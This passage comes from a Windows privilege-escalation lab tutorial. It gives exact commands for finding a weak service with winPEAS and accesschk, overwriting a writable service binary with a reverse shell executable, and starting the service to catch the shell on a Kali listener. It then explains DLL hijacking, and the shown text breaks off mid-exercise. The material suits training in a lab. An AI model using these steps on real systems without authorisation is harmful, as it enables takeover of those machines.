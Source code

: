 
**Exercise :**

Connect to your windows server VMwith user account.

1. Run winPEAS to check for service misconfigurations:
    ````
    .\winPEASany.exe quiet servicesinfo
    ````
2. Note that the “filepermsvc” service has an executable which appears to be 
writable by everyone. We can confirm this with accesschk.exe:
    ````
    .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
    ````
3. Create a backup of the original service executable:
    ````
    copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp 
    ````
4. Copy the reverse shell executable to overwrite the service 
executable:
    ````
    copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
    ````
5. Start a listener on Kali, and then start the service to trigger the 
exploit:
    ````
    net start filepermsvc
    ````

AND BIM!

--- 


### DLL Hijacking
Often a service will try to load functionality from a library 
called a DLL (dynamic-link library). Whatever functionality the 
DLL provides, will be executed with the same privileges as the 
service that loaded it.
If a DLL is loaded with an absolute path, it might be possible 
to escalate privileges if that DLL is writable by our user.

A more common misconfiguration that can be used to 
escalate privileges is if a DLL is missing from the system, 
and our user has write access to a directory within the 
PATH that Windows searches for DLLs in.
Unfortunately, initial detection of vulnerable services is 
difficult, and often the entire process is very manual.

---

**Exercise :**

1. Use winPEAS to enumerate non-Windows services:
    ````
    .\winPEASany.exe quiet servicesinfo
    ````
2. Note that the C:\Temp directory is writable and in the PATH. Start by 
enumerating which of these services our user has stop and start access to:
    ````
    .\accesschk.exe /accepteula -uvqc user dllsvc
    ````
3. The “dllsvc” service is vulnerable to DLL Hijacking. According to the 
winPEAS output, the service runs the dllhijackservice.exe executable. We 
can confirm this manually:
    ````
    sc qc dllsvc